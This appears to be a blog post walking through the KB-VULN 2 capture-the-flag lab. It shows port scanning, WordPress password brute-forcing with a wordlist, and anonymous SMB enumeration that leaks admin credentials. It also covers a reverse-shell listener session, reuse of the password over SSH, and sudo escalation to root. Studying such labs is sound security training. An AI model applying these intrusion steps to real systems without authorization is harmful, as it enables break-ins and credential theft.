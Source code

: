 ```yaml
---
title: "KB-VULN: 2 Writeup"
description: "KB-VULN 2 Walkthrough"
layout: post
categories: [CTF]
---
```


RECON: 
NMAP SCAN
{% highlight terminal %}
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
{% endhighlight %}

GOBUSTER OUTPUT

{% highlight terminal %}
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.107/wordpress/]
{% endhighlight %}
wpscan: 
{% highlight terminal %}
wpscan -U admin -P /usr/share/wordlists/rockyou.txt --url http://kb.vuln/wordpress/ 

{% endhighlight %}

SMB enumeration: 
{% highlight terminal %}
 smbmap -H 192.168.56.107
[+] Guest session   	IP: 192.168.56.107:445	Name: kb.vuln                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Anonymous                                         	READ ONLY	OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	IPC Service (Samba Server 4.7.6-Ubuntu)
{% endhighlight %}
                                                                                         
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.56.107
Enter WORKGROUP\kali's password: 

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      OPEN YOUR EYES!
	IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available
{% endhighlight %}
                                                                                         
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.107/Anonymous
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 06:58:56 2020
  ..                                  D        0  Wed Sep 16 06:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 06:58:56 2020
{% endhighlight %}

There's a file inside the backup.zip archive called "remember_me.txt" which contains the
admin password for the WordPress installation: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN2]
└─$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
{% endhighlight %}


Now we can upload/inject our reverse TCP shell code either via the plugins or via the 
theme editor section of the site. 


{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ nc -lp 6666                                                             2 ⨯
Linux kb-server 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:53:37 up 34 min,  0 users,  load average: 0.00, 0.75, 1.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Checking the passwd file
{% highlight terminal %}
$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
kbadmin:x:1000:1000:MachineBoy:/home/kbadmin:/bin/bash
$ 
{% endhighlight %}

{% highlight terminal %}
www-data@kb-server:/var/www$ cd html
cd html
www-data@kb-server:/var/www/html$ ls -a
ls -a
.  ..  index.html  read_ME.txt	remember_me.txt  wordpress
www-data@kb-server:/var/www/html$ cat read_ME.txt
cat read_ME.txt
system administrator is kbadmin.
good luck ;)
www-data@kb-server:/var/www/html$
{% endhighlight %}

Let's try those creds with this new user over ssh

kbadmin:MachineBoy141

{% highlight terminal %}

kbadmin@kb-server:~$ cat user.txt 
03bf4d20dac5644c75e69e40bad48db0
kbadmin@kb-server:~$ cat note.txt 
use DOCKER!
kbadmin@kb-server:~$
{% endhighlight %}

The note is a red herring. 

{% highlight terminal %}
kbadmin@kb-server:~$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL
kbadmin@kb-server:~$ sudo -i
root@kb-server:~#
root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
{% endhighlight %}

